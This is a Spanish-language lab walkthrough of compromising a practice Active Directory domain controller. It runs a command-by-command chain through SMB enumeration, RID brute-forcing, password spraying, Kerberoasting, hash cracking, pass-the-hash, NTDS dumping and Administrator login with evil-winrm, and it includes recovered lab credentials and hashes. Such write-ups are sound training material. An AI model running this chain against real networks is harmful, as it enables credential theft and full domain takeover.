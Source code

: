 Hacemos el escaneo con nmap:
![[Pasted image 20240923110530.png]]
![[Pasted image 20240923110627.png]]
Lo primero será enumerar recursos compartidos, lo cual podremos hacerlo:
```bash
smbclient -L //192.168.222.71/ -N
```
![[Pasted image 20240923110754.png]]
Vamos a listar los permisos con smbmap o netexec:
```bash
smbmap -H 192.168.222.71 -u 'guest' -p ''
netexec smb 192.168.222.71 -u 'guest' -p '' --shares
```
![[Pasted image 20240923111354.png]]
Ahora con netexec podemos también enumerar usuarios de la siguiente forma:
```bash
netexec smb 192.168.222.71 -u guest -p "" --rid-brute
```
![[Pasted image 20240923111506.png]]
Y para filtrar únicamente por usuarios, lo hacemos de la siguiente forma:
```bash
nxc smb 192.168.222.71 -u guest -p "" --rid-brute |  grep SidTypeUser | awk '{print $6}' | tr '\' ' ' | awk '{print $2}'
```
![[Pasted image 20240923111725.png]]
En este punto lo que podemos hacer es un password spraying para ver si el usuario es el mismo que en la contraseña en alguno de ellos:
```bash
netexec smb 192.168.222.71 -u users.txt -p users.txt --no-bruteforce
```
![[Pasted image 20240923112728.png]]
Y encontramos unas credenciales válidas:
```bash
ybob317:ybob317
```
Y ahora con estas credenciales podremos enumerar recursos compartidos:
```bash
netexec smb 192.168.222.71 -u ybob317 -p ybob317 --shares
```
![[Pasted image 20240923112825.png]]
Pero sin embargo por winrm no podemos entrar:
![[Pasted image 20240923112901.png]]
Ahora vamos a enumerar usuarios en el sistema que puedan ser vulnerables a un ataque kerberoast:
```bash
impacket-GetUserSPNs -dc-ip 192.168.222.71 soupedecode.local/ybob317:ybob317 -outputfile hash
```
![[Pasted image 20240923113307.png]]
Pero nos da el siguiente error:
![[Pasted image 20240923113320.png]]
Que se soluciona sincronizando la hora de mi máquina atacante con la del DC:
```bash
ntpdate 192.168.222.71 
```
Y ahora lanzamos el ataque:
```bash
impacket-GetUserSPNs -dc-ip 192.168.222.71 SOUPEDECODE.LOCAL/ybob317:ybob317 -outputfile archivo.hash
```
![[Pasted image 20240923114042.png]]
Vamos a crackearlos con JohnTheRipper:
```bash
john --wordlist=rockyou.txt archivo.hash
```
![[Pasted image 20240923114300.png]]
Como podemos observar, solo nos saca 1 contraseña, y no vemos a que cuenta pertenece. Para identificar a quien pertenece esa contraseña, utilizaremos netexec:
```bash
netexec smb 192.168.222.71 -u users.txt -p 'Password123!!'
```
![[Pasted image 20240923114341.png]]
```bash
file_svc:Password123!!
```
Ahora con este usuario listamos recursos compartidos y vemos que podemos leer la carpeta backup:
```bash
smbmap -H 192.168.222.71 -u file_svc -p 'Password123!!'
```
![[Pasted image 20240923114528.png]]
```bash
smbmap -H 192.168.222.71 -u file_svc -p 'Password123!!' -r backup
```
![[Pasted image 20240923114605.png]]
Nos descargamos ese archivo:
```bash
smbmap -H 192.168.222.71 -u file_svc -p 'Password123!!' --download backup/backup_extract.txt
```
![[Pasted image 20240923114713.png]]
Nos encontramos con un fichero; backup_extract.txt que parece tener muchos usuarios y hashes NTLMv1, con los que podemos realizar la técnica de pass the hash, vamos a comprobar si hay alguna credencial válida primero filtrando por los hashes:
```bash
cat 192.168.222.71-backup_backup_extract.txt | tr ':' ' ' | awk '{print $4}'
```
![[Pasted image 20240923114918.png]]
Y después filtrando por los usuarios:
```bash
cat 192.168.222.71-backup_backup_extract.txt | tr ':' ' ' | awk '{print $1}' > usuarios
```
![[Pasted image 20240923115500.png]]
Y lanzamos el ataque y vemos si algún usuario es vulnerable a pass-the-hash:
```bash
crackmapexec smb 192.168.222.71 -u usuarioss -H hashess --continue-on-success --no-brute
```
![[Pasted image 20240923115544.png]]
```bash
FileServer$:e41da7e79a4c76dbd9cf79d1cb325559
```
Vamos a dumpear el NTDS para sacar las credenciales de Administrator:
```bash
netexec smb 192.168.222.71 -u FileServer$ -H e41da7e79a4c76dbd9cf79d1cb325559 --ntds
```
![[Pasted image 20240923115744.png]]
```bash
Administrator:88d40c3a9a98889f5cbb778b0db54a2f
```
Entonces intentamos entrar por winrm usando el hash del administrador:
```bash
evil-winrm -i 192.168.222.71 -u 'Administrator' -H '88d40c3a9a98889f5cbb778b0db54a2f'
```
![[Pasted image 20240923115902.png]]
